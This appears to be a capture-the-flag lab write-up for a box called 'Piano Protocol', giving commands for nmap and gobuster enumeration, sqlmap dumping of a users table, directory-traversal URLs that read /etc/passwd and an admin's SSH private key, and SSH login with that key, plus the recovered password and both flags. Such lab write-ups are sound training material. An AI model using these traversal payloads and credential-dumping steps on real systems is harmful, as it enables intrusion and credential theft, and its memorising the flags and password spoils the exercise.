









# **Piano Protocol**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.118.126
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.118.126 -w /usr/share/wordlists/dirb/common.txt
```
 

 

## **Find SQL Injection in login page**

- Adding single quote to username value, gives sql error. Also from error its clear mysql database is used.

 

## **Use SQLmap to dump tables**

- Save the request in burpsuite as postrequest.txt. Run SQLMAP to find the database and tables.

```
sqlmap -r postrequest.txt --dbms= "mysql" --batch --tables
```
 


- Now you can find the database name is 'piano_protocol' and table name is 'users'. Use sqlmap to dump the data from users table. Here you can find the password of admin.

```
sqlmap -r postrequest.txt --dbms= "mysql" --batch --tables -D piano_protocol -T users --dump
```
 

- Use this password 'djj28hah*dhk2hd1%' to login with admin username. Login is now successful and local.txt flag can be found here.

 

### local.txt flag:  b8488f8d4c46ea5163069ea1e5b7b825

---

## **PROOF.TXT**

## **Intercept the Inventory Page GET request**

- Test for directory traversal using LFI.

```
http://192.168.118.126/siteadmin/dev?piano_f=../../../../../etc/passwd
```
   
 

- The /etc/passwd file lists user accounts, and one of its fields is the user’s home directory.

```
admin:x:1000:1000::/home/admin:/bin/bash
```

## **Use directory traversal to access sensitive files like id_rsa**

- Now try to read the 'id_rsa' file i.e, Private SSH key (sensitive) for admin user from /home/admin/.ssh directory.

```
http://192.168.118.126/siteadmin/dev?piano_f=../../../../../home/admin/.ssh/id_rsa
```

 

## **Gain SSH access using the retrieved private key**

```
ssh -i /path/to/id_rsa username@hostname
```

- Copy the content of id_rsa file to your kali machine. In previoud nmap command port 2222 was open. Now ssh to host ip from port 2222 using this id_rsa private key.

```
ssh -i id_rsa -p 2222 admin@192.168.118.126
```

- Now you successfully logeed in to the server. There is a proof.txt file is present. Now read that flag.   



- Same proof.txt flag you can also read directly doing a directory traversal as well.

```
http://192.168.118.126/siteadmin/dev?piano_f=../../../../../home/admin/proof.txt
```


   
### proof.txt flag: f19fe72e06cd6a91b3abceed29b2085a

---